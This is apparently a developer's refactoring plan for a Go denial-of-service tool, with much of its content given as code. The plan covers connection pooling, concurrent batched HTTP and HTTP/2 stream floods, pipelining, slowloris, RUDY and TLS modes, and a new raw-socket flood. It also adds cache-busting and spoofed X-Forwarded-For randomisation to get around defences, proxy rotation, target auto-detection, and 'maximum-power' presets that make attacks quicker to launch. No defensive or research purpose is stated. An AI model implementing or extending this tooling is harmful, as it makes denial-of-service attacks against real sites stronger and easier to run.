

# DDOS Module Efficiency Refactor Plan

## Overview

This plan refactors the entire DDOS module to achieve maximum efficiency by addressing connection management, response handling, request patterns, and adding new high-performance attack modes. The refactor also simplifies user experience with preset configurations and intelligent auto-detection.

## Core Problems Identified

1. **Connection Inefficiency**: Creating new HTTP clients/transports per request when rotating proxies
2. **Response Body Waste**: Reading full response bodies (up to 1MB) wastes bandwidth and CPU
3. **Sequential Patterns**: Workers send requests sequentially instead of concurrently
4. **No Connection Pooling**: Each request may create new connections
5. **No HTTP Pipelining**: Missing opportunity to send multiple requests per connection
6. **No Request Randomization**: Missing cache-busting and request variation
7. **HTTP/2 Streams Sequential**: Streams created sequentially instead of concurrently
8. **Complex Configuration**: 15+ questions required for basic attacks

## New Architecture




## Implementation Plan

### Phase 1: Foundation - Types and Core Infrastructure

#### 1.1 Update Types and Configuration (MUST BE FIRST)

**File**: `ddos/types.go` (modify)**Changes**:

1. Add new attack mode constant:
```go
const (
    // ... existing modes ...
    ModeRawSocket AttackMode = "raw-socket"
)
```


2. Add new configuration fields to `DDoSConfig`:
```go
type DDoSConfig struct {
    // ... all existing fields remain unchanged ...
    
    // Efficiency options (all enabled by default)
    UseConnectionPool          bool     // Default: true
    PoolSizePerWorker          int      // Default: 5
    DiscardResponseBody        bool     // Default: true
    EnableHTTPPipelining      bool     // Default: false (optional)
    PipeliningDepth           int      // Default: 10
    EnableRequestRandomization bool     // Default: true
    RandomizationLevel        int      // Default: 2 (0=none, 1=query, 2=headers+query, 3=full)
    ExpensiveEndpoints        []string // Default: empty (auto-detected)
    ConcurrentBatchSize       int      // Default: 10
    
    // Raw socket mode
    UseRawSocket              bool     // Default: false
    RawSocketWorkers          int      // Default: 0 (auto-calculated)
}
```


3. Add new statistics fields to `AttackStats`:
```go
type AttackStats struct {
    // ... all existing fields remain unchanged ...
    ConnectionsReused         int64    // Connection reuse count
    PoolHitRate               float64  // Connection pool efficiency (0-1)
    AverageBatchSize          float64  // Average requests per batch
    PipeliningEfficiency      float64  // Pipelining success rate (0-1)
}
```


**Implementation Notes**:

- All new fields have zero values that work as defaults
- Existing code continues to work (backward compatible)
- Smart defaults applied in `New()` function

#### 1.2 Connection Pool Manager

**File**: `ddos/pool.go` (new file)**Struct Definition**:

```go
type ClientPool struct {
    clients      []*http.Client
    transports   []*http.Transport
    index        int64  // Atomic counter for round-robin
    poolSize     int
    proxyList    []string
    rotateProxy  bool
    useHTTP2     bool
    mu           sync.RWMutex
}

type PoolStats struct {
    TotalClients    int
    ActiveClients   int
    PoolHits        int64
    PoolMisses      int64
}
```

**Key Functions**:

- `NewClientPool(config DDoSConfig) (*ClientPool, error)` - Create pool with pre-configured clients
- `GetClient() *http.Client` - Get next client from pool (round-robin)
- `GetStats() PoolStats` - Get pool statistics
- `Close()` - Cleanup all connections

**Implementation Details**:

- Pre-create clients for each proxy if `RotateProxy` is true
- If single proxy or no proxy, create pool of clients sharing same transport
- Health checking: mark unhealthy clients and skip them
- Support both HTTP/1.1 and HTTP/2 pools

#### 1.3 Request Builder with Randomization

**File**: `ddos/request_builder.go` (new file)**Struct Definition**:

```go
type RequestBuilder struct {
    baseURL          string
    method           string
    baseHeaders      map[string]string
    endpoints        []string
    randomizationLevel int
    rng              *rand.Rand
    mu               sync.Mutex
}
```

**Key Functions**:

- `NewRequestBuilder(config DDoSConfig) *RequestBuilder` - Initialize builder
- `BuildRequest() (*http.Request, error)` - Build randomized request
- `AddCacheBustingParams(url string) string` - Add query params like `?_t=timestamp&_r=random`
- `RandomizeHeaders(req *http.Request)` - Add random headers (X-Request-ID, X-Forwarded-For, Referer)
- `SelectEndpoint() string` - Select random endpoint from list

**Randomization Levels**:

- Level 0: No randomization
- Level 1: Query parameters only (`?_t=...&_r=...`)
- Level 2: Query params + random headers
- Level 3: Full randomization (query, headers, endpoint, user-agent variation)

#### 1.4 Response Handler Optimization

**File**: `ddos/flood.go` (modify `sendRequest` function)**Changes**:

```go
// OLD: Read full body
body, _ := io.ReadAll(io.LimitReader(resp.Body, 1024*1024))
atomic.AddInt64(&d.bytesReceived, int64(len(body)))

// NEW: Discard immediately
if d.config.DiscardResponseBody {
    io.Copy(io.Discard, resp.Body)
    // Don't track bytes received for efficiency
} else {
    // Only read if explicitly disabled (for debugging)
    body, _ := io.ReadAll(io.LimitReader(resp.Body, 1024*1024))
    atomic.AddInt64(&d.bytesReceived, int64(len(body)))
}
```


#### 1.5 Update Attack Initialization

**File**: `ddos/attack.go` (modify `New` function)**Add Smart Defaults**:

```go
func New(config DDoSConfig) *DDoSAttack {
    // ... existing defaults ...
    
    // New efficiency defaults
    if !config.UseConnectionPool {
        config.UseConnectionPool = true // Always enable by default
    }
    if config.PoolSizePerWorker <= 0 {
        config.PoolSizePerWorker = 5
    }
    if !config.DiscardResponseBody {
        config.DiscardResponseBody = true // Always enable by default
    }
    if config.PipeliningDepth <= 0 {
        config.PipeliningDepth = 10
    }
    if !config.EnableRequestRandomization {
        config.EnableRequestRandomization = true
    }
    if config.RandomizationLevel == 0 {
        config.RandomizationLevel = 2 // Headers + query params
    }
    if config.ConcurrentBatchSize <= 0 {
        config.ConcurrentBatchSize = 10
    }
    
    // ... rest of initialization ...
}
```


### Phase 2: Attack Mode Optimizations

#### 2.1 HTTP Flood Optimization

**File**: `ddos/flood.go` (major refactor)**Key Changes**:

1. Replace single client with `ClientPool`
2. Implement concurrent batching per worker
3. Add optional HTTP pipelining

**New Implementation**:

```go
func (d *DDoSAttack) startFloodWorkers(numWorkers int) {
    // Create connection pool
    pool, err := NewClientPool(d.config)
    if err != nil {
        // Fallback to old method
        return
    }
    d.clientPool = pool
    
    // Create request builder
    d.requestBuilder = NewRequestBuilder(d.config)
    
    for i := 0; i < numWorkers; i++ {
        d.wg.Add(1)
        if d.config.EnableHTTPPipelining {
            go d.pipelinedFloodWorker(pool)
        } else {
            go d.concurrentFloodWorker(pool)
        }
    }
}

func (d *DDoSAttack) concurrentFloodWorker(pool *ClientPool) {
    defer d.wg.Done()
    
    for {
        select {
        case <-d.ctx.Done():
            return
        default:
            // Send batch of concurrent requests
            var wg sync.WaitGroup
            for i := 0; i < d.config.ConcurrentBatchSize; i++ {
                wg.Add(1)
                go func() {
                    defer wg.Done()
                    client := pool.GetClient()
                    req, _ := d.requestBuilder.BuildRequest()
                    d.sendRequestWithClient(client, req)
                }()
            }
            wg.Wait()
        }
    }
}
```


#### 2.2 HTTP/2 Stream Flood Optimization

**File**: `ddos/http2.go` (major refactor)**Key Changes**:

- Create streams concurrently using goroutines
- Use connection pool for HTTP/2 connections

**New Implementation**:

```go
func (d *DDoSAttack) http2StreamFloodWorker(pool *ClientPool, targetURL string) {
    defer d.wg.Done()
    
    for {
        select {
        case <-d.ctx.Done():
            return
        default:
            // Create streams concurrently
            var wg sync.WaitGroup
            for i := 0; i < d.config.MaxStreamsPerConn; i++ {
                wg.Add(1)
                go func() {
                    defer wg.Done()
                    client := pool.GetClient()
                    d.sendHTTP2StreamRequest(client, targetURL)
                }()
            }
            wg.Wait()
        }
    }
}
```


#### 2.3-2.5 Other Attack Modes

**Files**: `ddos/slowloris.go`, `ddos/rudy.go`, `ddos/tls.go`**Changes** (similar pattern for all):

- Integrate connection pool for initial connections
- Optimize memory allocations
- Improve connection lifecycle management

### Phase 3: Raw Socket Implementation

**File**: `ddos/rawsocket.go` (new file)**Key Components**:

```go
type RawSocketPool struct {
    connections []net.Conn
    targetHost  string
    targetPort  string
    useTLS      bool
    mu          sync.Mutex
}

func (d *DDoSAttack) startRawSocketAttack() {
    // Create raw socket pool
    // Start workers that use raw TCP connections
    // Build HTTP requests as byte arrays
    // Send directly without HTTP client overhead
}

func buildRawHTTPRequest(method, path, host string, headers map[string]string) []byte {
    // Construct HTTP request as byte array
    // Format: "GET /path HTTP/1.1\r\nHost: host\r\n..."
}
```

**Implementation Details**:

- Direct TCP connections (bypass Go's HTTP client)
- Manual HTTP request construction
- Connection pooling at socket level
- Support for keep-alive
- Proxy support via CONNECT method

### Phase 4: Template Support

**File**: `ddos/template.go` (modify)**Changes**:

1. Add parsing for new configuration options
2. Update `SaveConfigAsTemplate` to include new fields
3. Maintain backward compatibility (old templates work with defaults)

**New Template Keys**:

```javascript
UseConnectionPool=true
PoolSizePerWorker=5
DiscardResponseBody=true
EnableHTTPPipelining=false
PipeliningDepth=10
EnableRequestRandomization=true
RandomizationLevel=2
ConcurrentBatchSize=10
UseRawSocket=false
```


### Phase 5: Preset System and Auto-Detection

#### 5.1 Preset Configuration System

**File**: `ddos/presets.go` (new file)**Preset Types**:

```go
type PresetType string

const (
    PresetQuickStart   PresetType = "quick-start"
    PresetBalanced     PresetType = "balanced"
    PresetMaximumPower PresetType = "maximum-power"
    PresetCustom       PresetType = "custom"
)
```

**Key Functions**:

```go
func GetPresetConfig(preset PresetType, baseConfig DDoSConfig) *DDoSConfig {
    config := baseConfig // Start with base (from cURL)
    
    switch preset {
    case PresetQuickStart:
        // Auto-detect optimal settings
        return AutoDetectOptimalSettings(config)
    case PresetBalanced:
        // Balanced performance
        config.UseConnectionPool = true
        config.DiscardResponseBody = true
        config.EnableRequestRandomization = true
        config.RandomizationLevel = 2
        config.ConcurrentBatchSize = 10
        // ... moderate settings
    case PresetMaximumPower:
        // All efficiency features
        config.UseConnectionPool = true
        config.PoolSizePerWorker = 10
        config.DiscardResponseBody = true
        config.EnableHTTPPipelining = true
        config.EnableRequestRandomization = true
        config.RandomizationLevel = 3
        config.ConcurrentBatchSize = 20
        // ... maximum settings
    }
    return &config
}
```


#### 5.2 Auto-Detection System

**File**: `ddos/autodetect.go` (new file)**Key Functions**:

```go
type TargetInfo struct {
    URL            string
    Protocol      string  // "http" or "https"
    SupportsHTTP2 bool
    HasProxies     bool
    ProxyCount     int
}

func DetectTargetCapabilities(targetURL string, availableProxies int) TargetInfo {
    // Detect protocol
    // Test HTTP/2 support
    // Check proxy availability
    return TargetInfo{...}
}

func SuggestOptimalAttackMode(info TargetInfo) AttackMode {
    if info.SupportsHTTP2 && info.Protocol == "https" {
        return ModeHTTP2StreamFlood
    }
    if info.HasProxies && info.ProxyCount > 10 {
        return ModeFlood // Better with proxies
    }
    return ModeFlood // Default
}

func CalculateOptimalThreads(info TargetInfo, availableProxies int) int {
    baseThreads := 500
    if availableProxies > 0 {
        // Scale with proxy count
        return min(availableProxies * 10, 2000)
    }
    return baseThreads
}

func AutoDetectOptimalSettings(baseConfig DDoSConfig) *DDoSConfig {
    info := DetectTargetCapabilities(baseConfig.TargetURL, len(baseConfig.ProxyList))
    
    config := baseConfig
    config.AttackMode = SuggestOptimalAttackMode(info)
    if config.MaxThreads <= 0 {
        config.MaxThreads = CalculateOptimalThreads(info, len(config.ProxyList))
    }
    
    // Enable all efficiency features
    config.UseConnectionPool = true
    config.DiscardResponseBody = true
    config.EnableRequestRandomization = true
    // ... etc
    
    return &config
}
```


### Phase 6: Console UI Simplification

**File**: `console-menu/attack.go` (major refactor)**New Simplified Flow**:

```javascript
┌─────────────────────────────────────────┐
│  DDoS Attack Setup                     │
├─────────────────────────────────────────┤
│  [1] Quick Start (Recommended)         │
│      → Auto-configured, 2-3 questions  │
│  [2] Preset Mode                       │
│      → Choose preset, 3-4 questions     │
│  [3] Custom                            │
│      → Full control, simplified UI      │
│  [4] Use Template                      │
│      → Load from template file         │
└─────────────────────────────────────────┘
```

**Quick Start Implementation**:

```go
func (m *Menu) quickStartAttack() {
    // 1. Select target (folder/file)
    target := m.selectTarget()
    
    // 2. Load cURL config
    curlConfig := m.loadCurlConfig(target)
    
    // 3. Auto-detect optimal settings
    ddosConfig := ddos.AutoDetectOptimalSettings(curlConfig)
    
    // 4. Show detected settings
    m.showDetectedSettings(ddosConfig)
    
    // 5. Confirm and start
    if m.confirmStart() {
        m.startAttack(ddosConfig)
    }
}
```

**UI Improvements**:

- Reduce questions from 15+ to 2-3 for Quick Start
- Efficiency features enabled automatically (no questions)
- Show "Recommended" clearly
- One-click preset selection
- Advanced options hidden by default

## File Changes Summary

### New Files (5)

1. `ddos/pool.go` - Connection pool management
2. `ddos/request_builder.go` - Request building with randomization
3. `ddos/rawsocket.go` - Raw socket attack implementation
4. `ddos/presets.go` - Preset configuration system
5. `ddos/autodetect.go` - Auto-detection of optimal settings

### Modified Files (10)

1. `ddos/types.go` - Add new config options, attack mode, statistics
2. `ddos/attack.go` - Integrate pool manager, update initialization with smart defaults
3. `ddos/flood.go` - Major refactor for efficiency (pool, batching, pipelining)
4. `ddos/http2.go` - Concurrent stream implementation
5. `ddos/slowloris.go` - Connection pool integration
6. `ddos/rudy.go` - Connection pool integration
7. `ddos/tls.go` - Connection pool integration
8. `ddos/transport.go` - Pool-aware transport creation (if needed)
9. `ddos/template.go` - Support new configuration options
10. `console-menu/attack.go` - Major UI simplification

## Implementation Order (Critical)

1. **Phase 1.1**: Update `types.go` FIRST (all other phases depend on it)
2. **Phase 1.2-1.5**: Core infrastructure (pool, request builder, response handler, defaults)
3. **Phase 2**: Optimize all existing attack modes
4. **Phase 3**: Add raw socket mode
5. **Phase 4**: Update template support
6. **Phase 5**: Preset system and auto-detection
7. **Phase 6**: Console UI simplification

## Dependencies Graph

```javascript
phase1_types (MUST BE FIRST)
    ├─> phase1_pool
    ├─> phase1_request_builder
    ├─> phase1_attack_init
    ├─> phase4_template
    └─> phase5_presets
        └─> phase5_autodetect
            └─> phase6_console

phase1_pool
    ├─> phase2_flood
    ├─> phase2_http2
    ├─> phase2_slowloris
    ├─> phase2_rudy
    └─> phase2_tls

phase1_request_builder
    ├─> phase2_flood
    └─> phase3_rawsocket
```


## Performance Targets

- **Connection Reuse**: >80% connection reuse rate
- **Throughput**: 3-5x improvement in requests per second
- **Memory**: Reduce allocations by 60-70%
- **CPU**: Reduce CPU usage per request by 40-50%
- **Latency**: Reduce per-request overhead by 50%

## Testing Strategy

1. **Unit Tests**: Test each new component (pool, request builder, presets)
2. **Integration Tests**: Test attack modes with new infrastructure
3. **Benchmark Tests**: Compare before/after performance for each attack mode
4. **Backward Compatibility**: Verify old templates/configs still work
5. **UI Tests**: Test simplified console flow

## Breaking Changes

Since breaking changes are acceptable:

- `DDoSConfig` struct extended with new fields (all have zero-value defaults)
- `AttackStats` struct extended (old code sees zero values for new fields)
- Attack mode enum extended with `ModeRawSocket`
- Old templates work but use default values for new options

## User Experience Improvements

### Before (Current)

- 15+ configuration questions
- Manual efficiency feature selection
- Complex proxy setup
- No presets or smart defaults

### After (Simplified)

- **Quick Start**: 2-3 questions (target → review → confirm)
- **Preset Mode**: 3-4 questions (preset → target → review → confirm)
- **Custom Mode**: Simplified but full control
- Efficiency features enabled automatically
- Auto-detection of optimal settings

## Success Criteria

1. ✅ All efficiency features implemented and working
2. ✅ Connection pool achieves >80% reuse rate
3. ✅ Throughput improved by 3-5x
4. ✅ Quick Start mode requires ≤3 questions
5. ✅ All existing attack modes optimized
6. ✅ Raw socket mode implemented